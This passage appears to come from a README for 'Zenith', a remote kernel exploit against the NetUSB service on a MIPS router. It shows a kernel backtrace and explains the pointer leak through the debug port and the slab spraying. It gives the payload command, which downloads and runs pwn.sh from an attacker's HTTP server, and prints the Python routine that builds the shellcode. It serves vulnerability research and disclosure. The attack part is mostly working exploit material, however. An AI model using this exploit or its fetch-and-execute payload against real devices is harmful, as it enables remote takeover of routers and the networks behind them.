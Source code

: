 ```text
    at kernel/sched/core.c:3375
#1  0x80141ea8 in __wake_up_sync_key (q=<optimized out>, mode=<optimized out>,
    nr_exclusive=<optimized out>, key=<optimized out>) at kernel/sched/core.c:3450
#2  0x8045d2d4 in tcp_prequeue (skb=0x87eb4e40, sk=0x851e5f80) at include/net/tcp.h:964
#3  tcp_v4_rcv (skb=0x87eb4e40) at net/ipv4/tcp_ipv4.c:1736
#4  0x8043ae14 in ip_local_deliver_finish (skb=0x87eb4e40) at net/ipv4/ip_input.c:226
#5  0x8040d640 in __netif_receive_skb (skb=0x87eb4e40) at net/core/dev.c:3341
#6  0x803c50c8 in pcnet32_rx_entry (entry=<optimized out>, rxp=0xa0c04060, lp=0x87d08c00,
    dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1199
#7  pcnet32_rx (budget=16, dev=0x87d08800) at drivers/net/ethernet/amd/pcnet32.c:1212
#8  pcnet32_poll (napi=0x87d08c5c, budget=16) at drivers/net/ethernet/amd/pcnet32.c:1324
#9  0x8040dab0 in net_rx_action (h=<optimized out>) at net/core/dev.c:3944
#10 0x801244ec in __do_softirq () at kernel/softirq.c:244
#11 0x80124708 in do_softirq () at kernel/softirq.c:293
#12 do_softirq () at kernel/softirq.c:280
#13 0x80124948 in invoke_softirq () at kernel/softirq.c:337
#14 irq_exit () at kernel/softirq.c:356
#15 0x8010198c in ret_from_exception () at arch/mips/kernel/entry.S:34
```

All of this is possible because there is no kernel ALSR and the heap is writable / executable (no NX).

Zenith also leverages NetUSB's debug interface which is another socket listening on the port 33344. It basically sends `printk` string over this socket and leaks kernel-mode pointers of various allocations where we are able to place controlled data at. This is used by the `Leaker` class in the exploit code.

Zenith also defragments the `kmalloc128` slab cache using a very basic spraying primitive to fill holes.

Finally, the payload executed is available in [src/sh.remote.asm](src/sh.remote.asm) which basically executes `/bin/sh -c "wget http://{local_ip}:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh"`.

## Running the exploit

### Setting the environment up

To install the dependencies, run the below commands on an Ubuntu machine 20.04:
- `$ sudo apt install binutils-mips-linux-gnu binutils python3-pip`
- `$ pip3 install pycrypto`

The binutils are used by the exploit to generate the payload at runtime as it needs to include the IP address of the HTTP server the exploit reaches to (cf `prepare_payload`).

```py
def prepare_payload(name, ip_local):
    '''Read the payload pattern, assemble it and dump the assembled bytes.'''
    # Replace the local ip address in the payload
    r = open(name, 'r').read()
    tmp_payload = 'tmp.asm'
    with open(tmp_payload, 'w') as f:
        f.write(r.format(ip_local = ip_local))

    # Compile the payload
    os.system(f'mips-linux-gnu-as -march=mips32r2 {tmp_payload} -o sh.o')
    os.system(f'mips-linux-gnu-ld --omagic --section-start=.text={hex(addr_payload)} sh.o -o sh')

    # Dump the payload
    os.system('readelf -x .text sh > payload.txt')

    # Read the payload
    payload = read_payload('payload.txt',)

    # Clean-up the payload
```